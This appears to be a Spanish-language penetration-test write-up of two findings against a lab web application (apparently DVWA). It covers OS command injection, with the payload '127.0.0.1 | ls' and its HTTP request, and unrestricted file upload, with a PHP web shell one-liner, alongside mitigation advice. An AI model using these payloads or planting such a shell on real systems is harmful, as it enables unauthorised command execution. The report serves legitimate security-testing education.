



### V-01 — OS Command Injection (Medium)

**Clasificación:**  
- **OWASP Top 10:** A03:2021 – Injection  
- **OWASP WSTG:** WSTG-INPV-12 (Testing for OS Command Injection)  
- **CWE:** CWE-78 — Improper Neutralization of Special Elements used in an OS Command  
- **CVSS v3.1:** 9.8 (Critical)  
- **Vector:** AV:N / AC:L / PR:N / UI:N / S:U / C:H / I:H / A:H  

---

####  Ubicación
- **Módulo afectado:** Command Injection  
- **URL:** `http://192.168.56.1/vulnerabilities/exec/`  
- **Parámetro vulnerable:** `ip`  
- **Método:** GET  

---

####  Descripción técnica  
La aplicación concatena directamente la entrada del usuario al comando del sistema utilizado para ejecutar `ping`.  
Debido a la falta de sanitización, es posible inyectar operadores de shell (`;`, `|`, `&&`) y ejecutar comandos arbitrarios en el sistema operativo subyacente.

Esto constituye una vulnerabilidad de **Remote Command Execution (RCE)**.

---

####  Prueba de Concepto (PoC)
**Payload enviado:**
127.0.0.1 | ls

**Request HTTP (Burp Suite):**
GET /vulnerabilities/exec/?ip=127.0.0.1%20|%20ls&Submit=Submit HTTP/1.1
Host: 192.168.56.1
Cookie: security=medium; PHPSESSID=xxxx

**Respuesta observada:**
help
index.php
source

---

####  Impacto técnico
- Ejecución remota de comandos del SO  
- Acceso a archivos internos de la aplicación  
- Acceso potencial a credenciales, configuraciones o directorios sensibles  
- Posible escalación de privilegios dentro del contenedor  
- Riesgo de compromiso total del servidor

---

####  Recomendaciones de mitigación
- Validar entrada estricta usando expresiones regulares (solo formato de IP).  
- Escapar metacaracteres de shell mediante:
  - `escapeshellcmd()`
  - `escapeshellarg()`
- Implementar una whitelist de comandos permitidos.  
- Mover la lógica del ping a código backend que no dependa de concatenación.  
- Activar logs de seguridad y monitoreo del servidor.

---

 ### – V-02 File Upload (Medium)

 ### Clasificación
- **OWASP Top 10:** A08:2021 – Software and Data Integrity Failures  
- **OWASP WSTG:** WSTG-INPV-08 (Testing for File Upload)  
- **CWE:** CWE-434 — Unrestricted File Upload  
- **CVSS v3.1:** 7.5 (High)  
- **Vector:** AV:N / AC:L / PR:L / UI:N / S:U / C:H / I:H / A:N  

---

###  Ubicación
- **Módulo afectado:** File Upload  
- **URL:** `http://192.168.56.1/vulnerabilities/upload/`  
- **Directorio destino:** `/hackable/uploads/`  

---

### Descripción técnica
El módulo permite cargar archivos sin validar correctamente el contenido real.  
Aunque valida superficialmente la extensión y el encabezado, no analiza el contenido binario del archivo, permitiendo subir archivos manipulados.

Esto habilita a un atacante a subir archivos que el sistema cree seguros, pero cuyo contenido puede ejecutar código o contener payloads peligrosos si se combinan con otra vulnerabilidad.

---

###  Prueba de Concepto (PoC)

#### 1 Creación del archivo malicioso
 php
<?php echo "<pre>"; system($_GET['cmd']); echo "</pre>"; ?> 

**2) Subida exitosa del archivo**

**3)Cargar del archvio**

**4) Prueba de acceso al archivo**
URL:
http://192.168.56.1/hackable/uploads/fake.png?cmd=ls

**Impacto técnico**

-La aplicación acepta archivos modificados que podrían contener código malicioso.

-Aunque el código no se ejecuta en Medium, sí queda almacenado en el servidor.

-Permite ataques encadenados (pivoting) con otras vulnerabilidades.

**Recomendaciones**

-Implementar validación estricta de contenido (MIME real, firma mágica, análisis binario).

-Limitar tipos de archivo mediante whitelist.

-Aplicar renombrado seguro y directorios sin ejecución.

-Validar tamaño, estructura y contenido interno.
